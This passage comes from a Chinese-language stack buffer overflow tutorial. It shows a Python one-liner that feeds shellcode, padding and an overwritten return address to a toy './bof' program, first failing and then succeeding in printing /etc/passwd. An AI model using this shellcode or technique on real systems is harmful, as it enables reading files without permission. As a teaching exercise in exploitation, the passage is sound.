 * * *

因为 gdb 会初始化一些变量和其他的东西所以如果你试着在 gdb 之外使用同样的利用脚本就会失败。不过在这个例子中我加了个对 printf 的调用来输出缓冲区指针。这样我们就可以很容易地找到正确的值并且在真实的环境中获得地址。

这是使用我们在 gdb 中找到的值的真实版本

```
$ ./bof $(python -c 'print "\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31 
\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34 
\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05 
\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f 
\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x65\x74 
\x63\x2f\x70\x61\x73\x73\x77\x64\x41" + "A" * 182 +  
"\x7f\xff\xff\xff\xdc\x90"[::-1]') 
0x7fffffffdcf0 
?_w 

AH1H1fH4$HH1fH1H1@HH1H1< 
/etc/passwdAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 
AAAAAAAA• 
Illegal instruction (core dumped) 

```

很显然利用不成功。因为地址已经从 0x7fffffffdc90 变成了 0x7fffffffdcf0。幸好有这点 printf 的输出我们只需用正确的值调整一下载荷。

```
$ ./bof $(python -c 'print "\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31 
\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34 
\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05 
\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f 
\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x65\x74 
\x63\x2f\x70\x61\x73\x73\x77\x64\x41" + "A" * 182 +  
"\x7f\xff\xff\xff\xdc\xf0"[::-1]') 
0x7fffffffdcf0 
?_w 

AH1H1fH4$HH1fH1H1@HH1H1< 
/etc/passwdAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 
AAAAA• 
root:x:0:0:root:/root:/bin/bash 
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
bin:x:2:2:bin:/bin:/usr/sbin/nologin 
sys:x:3:3:sys:/dev:/usr/sbin/nologin 
sync:x:4:65534:sync:/bin:/bin/sync 
games:x:5:60:games:/usr/games:/usr/sbin/nologin 
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin 

```

